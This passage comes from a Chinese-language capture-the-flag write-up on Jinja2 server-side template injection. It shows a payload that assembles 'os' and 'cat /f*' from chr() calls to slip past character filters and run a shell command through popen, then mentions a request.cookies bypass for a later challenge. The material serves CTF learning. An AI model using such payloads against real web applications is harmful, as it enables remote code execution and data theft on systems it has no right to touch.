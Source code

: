 [![在这里插入图片描述](assets/1698900310-52cb89b5ed9218e3cfbb61db510a3938.png)](https://storage.tttang.com/media/attachment/2022/08/14/7efdcaab-0de7-4aba-b46c-701a4792ca20.png)  
当然，也可以利用 chr 函数来进行绕过，但 chr() 默认是没有的需要自己去调用定义，chr() 在 builtins 里

```plain
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}

/*原 payload
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[o+s].popen(c+a+t+ +/+f+*).read()}}
```

### [web364](#toc_web364)

`'`，`"`和 `args`被 ban，按理说可以用 values 替代 args，但  
[![在这里插入图片描述](assets/1698900310-0eaa17c09cad70f1d8e67ace160279a5.png)](https://storage.tttang.com/media/attachment/2022/08/14/29cac08d-0051-435a-b58a-7d7d82c43aa8.png)  
回显方法不允许使用，所以这里的话还需要去另寻他法  
发现用 request.cookies 绕过也可以  